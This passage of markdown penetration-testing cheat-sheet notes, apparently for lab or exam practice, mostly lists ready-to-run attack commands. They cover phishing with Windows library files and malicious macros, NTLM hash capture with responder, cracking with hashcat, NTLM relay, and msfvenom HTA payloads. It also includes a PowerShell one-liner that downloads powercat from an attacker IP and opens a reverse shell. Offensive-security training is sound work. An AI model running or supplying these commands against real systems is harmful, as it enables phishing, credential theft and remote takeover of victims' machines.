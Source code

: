 5. Start the Python3 web server on port `8000` to serve `powercat.ps1`, WsgiDAV for the WebDAV share `/home/kali/webdav`, and a Netcat listener on port `4444`
6. Send the library file to the victim and wait for them to execute the shortcut file to get a reverse shell

## Phishing

- Leverage ports 110 and 25
- https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/postfish

**ODT**: https://www.exploit-db.com/exploits/44564
- `python2 /usr/share/exploitdb/exploits/windows/local/44564.py`
- `sudo responder -I tun0 -v`
- `hashcat --status -w 4 -a 0 user.hash /usr/share/wordlists/rockyou.txt -m 5600`

**NTLM theft**
- https://github.com/Greenwolf/ntlm_theft
- `python3 ntlm_theft.py -g all -s 192.168.45.201 -f test`
- `sudo responder -I tun0 -v`
- `hashcat --status -w 4 -a 0 user.hash /usr/share/wordlists/rockyou.txt -m 5600`

**Redirecting NTLMv2**
- `python2 44564.py`
- `python ps_encoder.py -s powershell_reverse_shell_2.ps1`
- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.226.169 -c "powershell -e base64"`
  - only possible if there is an smb on the target

**Upload a lmk link that redirects to the following**
- `powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.213/powercat.ps1');powercat -c 192.168.45.213 -p 8039 -e powershell"`

**Macro**
- `python ps_encoder.py -s powershell_reverse_shell_2.ps1`
- `python 4_doc_macro.py BASE64`
- create doc with macros and Libreoffice
  - Tools > Macro
  - Tools > Customize > Events > Open Document
- Spreadsheet > This also runs macros
- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.154 LPORT=443 -f hta-psh -o evil.hta`
  - another way to create macros, then cat the file to copy it

**Send an email**
- `sudo swaks -t <recipient> -t <recipient> --from <sender> --attach @<Windows-Library-file> --server <IP> --body @body.txt --header "Subject: Staging Script" --suppress-data -ap`
- use WebDAV


## McAfee
- [mcafee-sitelist-pwd-decryption](https://github.com/funoverip/mcafee-sitelist-pwd-decryption/)
